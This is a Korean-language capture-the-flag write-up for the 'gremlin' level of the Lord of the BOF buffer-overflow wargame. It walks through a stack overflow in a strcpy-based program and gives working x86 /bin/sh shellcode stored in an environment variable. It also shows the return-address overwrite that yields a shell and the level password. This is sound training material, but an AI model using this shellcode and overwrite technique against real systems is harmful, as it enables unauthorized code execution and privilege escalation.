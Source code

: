 ============================================================================================================
[lob] gate
============================================================================================================


.. uml::
    
    @startuml

    start

    :Source Analysis;

    :Memory Structure;

    :Segmentation fault;

    :환경 변수 쉘코드 등록;

    :환경 변수 주소값 확인;

    :RET 주소를 환경 변수 주소로 변경하여 공격 진행;
    
    stop

    @enduml

|

Source Analysis
============================================================================================================

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
        The Lord of the BOF : The Fellowship of the BOF
        - gremlin
        - simple BOF
    */

    int main(int argc, char *argv[])
    {
        char buffer[256];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

|

Memory Structure
============================================================================================================

스택에 다음과 같이 들어가게 됩니다.

.. code-block:: console

    ===============
    LOW     
    ---------------
    Buffer  (256byte) <- argv[1]
    SFP     (4byte)
    RET     (4byte)
    ---------------
    HIGH    
    ===============

|

Segmentation fault
============================================================================================================

버퍼오버플로우가 일어나는 지점을 확인합니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

    $ bash2
    $ ./gremlin `python -c "print 'a'*256"`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    $ ./gremlin `python -c "print 'a'*260"`
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    Segmentation fault

|

exploit
============================================================================================================

환경 변수 쉘코드 등록
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    $ export shellcode=`python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`


|

환경 변수 주소값 확인
------------------------------------------------------------------------------------------------------------

.. code-block:: c

    #include <stdio.h>
    int main(int argc, char **argv)
    {
        char *addr;
        addr = getenv(argv[1]);
        printf("address %p\n", addr);
        return 0;
    }

.. code-block:: console

    $ gcc -o get get.c
    get.c: In function `main':
    get.c:5: warning: assignment makes pointer from integer without a cast

    $ ./get shellcode
    address 0xbffffc4c

|

RET 주소를 환경 변수 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    $ ./gremlin `python -c 'print "\x90"*260+"\x4c\xfc\xff\xbf"'`
    
    bash$ whoami
    gremlin
    bash$ my-pass
    euid = 501
    hello bof world


